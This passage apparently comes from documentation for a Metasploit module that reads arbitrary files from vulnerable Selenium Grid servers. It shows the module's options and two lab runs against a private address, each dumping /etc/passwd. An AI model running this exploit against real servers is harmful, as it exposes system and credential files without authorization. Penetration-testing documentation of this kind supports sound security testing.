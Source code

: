 ```
   Proxies                    no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT     4444             yes       The target port (TCP)
   SCHEME    file             yes       The scheme to use
   SSL       false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                      no        HTTP server virtual host


View the full module info with the info, or info -d command.

msf6 auxiliary(gather/selenium_file_read) > run rhost=192.168.56.16 rport=4445
[*] Running module against 192.168.56.16
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version 3.141.59 detected
[+] /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
seluser:x:1200:1201::/home/seluser:/bin/bash
systemd-timesync:x:101:101:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:105::/nonexistent:/usr/sbin/nologin
rtkit:x:105:106:RealtimeKit,,,:/proc:/usr/sbin/nologin
pulse:x:106:107:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin

[*] Auxiliary module execution completed
```

### selenium/standalone-firefox:4.0.0-alpha-6-20200730 installed with Docker on Ubuntu 24.04
```
msf6 auxiliary(gather/selenium_file_read) > run rhost=192.168.56.16 rport=4446
[*] Running module against 192.168.56.16
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Selenium Grid version 4.x detected and ready.
[+] /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
```